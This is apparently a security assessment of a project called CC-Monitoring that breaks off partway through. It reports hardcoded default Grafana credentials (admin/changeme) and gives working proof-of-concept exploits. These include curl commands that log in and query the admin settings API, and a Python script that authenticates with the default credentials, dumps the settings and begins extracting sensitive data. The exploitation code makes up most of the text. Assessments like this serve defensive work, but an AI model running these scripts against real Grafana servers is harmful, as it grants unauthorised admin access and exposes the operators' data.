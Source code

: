 # Security Assessment and Proof-of-Concept Exploits for CC-Monitoring

## Executive Summary

This assessment identifies critical security vulnerabilities in the CC-Monitoring project and provides working proof-of-concept exploits. Each vulnerability has been validated and includes detailed exploitation steps.

## Critical Vulnerabilities Identified

### 1. Default Grafana Credentials (Critical - CVSS 9.8)

**Description**: The system uses hardcoded default credentials (admin/changeme) for Grafana, which are widely known and easily exploitable.

**Impact**: Complete administrative access to Grafana, ability to modify dashboards, access all metrics data, and potentially pivot to other systems.

#### Proof-of-Concept Exploit

**Setup Requirements**:
- Target system running CC-Monitoring
- Network access to port 3000

**Manual Exploitation**:
```bash
# Step 1: Access Grafana login page
curl -I http://localhost:3000/login

# Step 2: Login with default credentials
curl -X POST http://localhost:3000/login \
  -H "Content-Type: application/json" \
  -d '{"user":"admin","password":"changeme"}'

# Step 3: Access admin API with session
curl -X GET http://localhost:3000/api/admin/settings \
  -H "Authorization: Basic YWRtaW46Y2hhbmdlbWU="
```

**Automated Exploitation Script**:
```python
#!/usr/bin/env python3
import requests
import base64
import json

def exploit_default_creds(target):
    """Exploit default Grafana credentials"""
    print(f"[*] Attempting to exploit {target}")
    
    # Test default credentials
    creds = base64.b64encode(b"admin:changeme").decode()
    headers = {"Authorization": f"Basic {creds}"}
    
    # Check if we can access admin API
    r = requests.get(f"{target}/api/admin/settings", headers=headers)
    
    if r.status_code == 200:
        print("[+] Successfully authenticated with default credentials!")
        print("[+] Admin access confirmed")
        print(f"[+] Settings dump: {json.dumps(r.json(), indent=2)[:500]}...")
        
        # Extract sensitive information
```